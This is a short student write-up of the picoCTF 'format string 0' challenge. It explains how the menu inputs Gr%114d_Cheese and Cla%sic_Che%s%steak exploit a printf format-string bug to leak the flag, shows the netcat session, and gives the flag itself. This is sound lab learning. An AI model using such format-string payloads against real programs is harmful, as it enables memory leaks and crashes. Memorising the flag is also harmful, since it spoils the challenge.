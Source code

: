 # **BINARY EXP**
## **<ins>FORMAT STRING 0</ins>**
### CHALLENGE DESCRIPTION:
Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 52579

After running the command in the webshell I noticed that the command which was under the function serve_patrick() was running.
Hence by looking at the source code, by entering the second option that is Gr%114d_Cheese the control goes to the function serve_bob().
We enter the second option because %114d is a format specifier which stores garbage values and hence the number of bytes increases 
and the condition is satisfied.

Under the function serve_bob() we enter Cla%sic_Che%s%steak because again %s is a format specifier for strings.
And since the flag is a string the flag is printed.


```
manasvini152-picoctf@webshell:~$ nc mimas.picoctf.net 55472
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation:  Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

### SOLVE: 
***FLAG:***: picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}

## Concepts learnt:
I learnt about format specifiers in C programmming and about functions and how to read the source code.

## Resources:
None.
